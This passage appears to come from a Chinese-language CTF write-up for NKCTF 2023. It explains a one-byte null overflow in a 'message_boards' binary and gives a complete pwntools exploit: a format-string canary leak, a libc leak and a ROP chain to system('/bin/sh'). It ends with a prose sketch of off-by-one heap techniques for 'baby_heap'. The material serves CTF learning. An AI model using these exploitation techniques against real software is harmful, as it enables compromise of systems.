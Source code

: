 程序本身只存在一字节null的溢出，会修改rbp寄存器最低一字节。通过leave指令进一步影响到rsp，ret的时候返回rsp处地址有可能落在输入变量的buf内，于是可以在buf上填充ret gadget一直滑到进行攻击的rop链上。

[message_boards](/assets/binary/2023-04-13-NKCTF22/message_boards.zip)

```python
from pwn import*
from LibcSearcher import*

context.log_level = "debug"
context.arch = "amd64"

io = process("./nkctf_message_boards")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./nkctf_message_boards")

#gdb.attach(io,'b *0x401340\n b main')
io.recvuntil("What is your name: ")
io.sendline(b'%41$p')
io.recv(7)
canary = int(io.recv(18),16)
success("canary :"+hex(canary))

io.recvuntil("What are your comments and suggestions for the NKCTF: ")
main_addr = elf.sym['main']
ret_addr = 0x40101a
payload = p64(ret_addr)*30+p64(main_addr)+p64(canary)
io.send(payload)


io.recvuntil("What is your name: ")
io.sendline(b'%25$p')
stderr_addr = int(io.recvuntil("What",drop = True)[-14:],16) 
success("stderr_addr :"+hex(stderr_addr))
# obj = LibcSearcher("_IO_2_1_stderr_",addr)
libc_addr = stderr_addr - libc.sym['_IO_2_1_stderr_'] # obj.dump("_IO_2_1_stderr_")
success("libc_addr :"+hex(libc_addr))
system_addr = libc_addr + libc.sym['system']
rdi_addr = 0x401413
binsh_addr = libc_addr + next(libc.search(b"/bin/sh"))
payload = p64(ret_addr)*28+p64(rdi_addr)+p64(binsh_addr)+p64(system_addr)+p64(canary)
io.sendline(payload)

io.interactive()
```

# baby_heap

off by one漏洞，可以构造overlap的chunk，然后将其释放到unsortedbin上，一来可以直接泄露libc基址，二来可以利用unsortedbin的split机制在bin上获得可控制chunk。

由于tcache的存在，split后的chunk从unsorted bin上取下的时候会附带(e->next)>>12值，可以利用到之后的tcache attack上。
